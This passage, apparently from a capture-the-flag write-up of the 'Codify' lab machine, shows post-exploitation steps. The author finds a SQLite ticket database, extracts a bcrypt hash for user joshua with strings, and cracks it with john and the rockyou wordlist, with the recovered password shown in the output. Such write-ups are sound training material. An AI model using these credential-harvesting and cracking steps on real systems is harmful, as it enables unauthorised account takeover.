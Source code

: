 ```bash
/var/cache/man/id/index.db
/var/cache/man/ja/index.db
/var/cache/man/sl/index.db
/var/www/contact/tickets.db
/var/lib/plocate/plocate.db
/var/lib/fwupd/pending.db
/var/lib/PackageKit/transactions.db
/var/lib/command-not-found/commands.db
/usr/lib/firmware/regulatory.db
```

The dir `/var/www/contact/` stands out to me, so I verified `tickets.db` db file.
```bash
svc@codify:~$ file /var/www/contact/tickets.db
/var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17

svc@codify:~$ strings /var/www/contact/tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

Great progress, a hash with an username `joshua` which is in our `/etc/passwd`, let's crack it
```bash
echo -n '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' | tee joshua.hash

john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt joshua.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:42 0.01% (ETA: 2024-01-02 14:20) 0g/s 28.99p/s 28.99c/s 28.99C/s franklin..warren
spongebob1       (?)     
1g 0:00:00:47 DONE (2023-12-26 16:17) 0.02107g/s 28.83p/s 28.83c/s 28.83C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
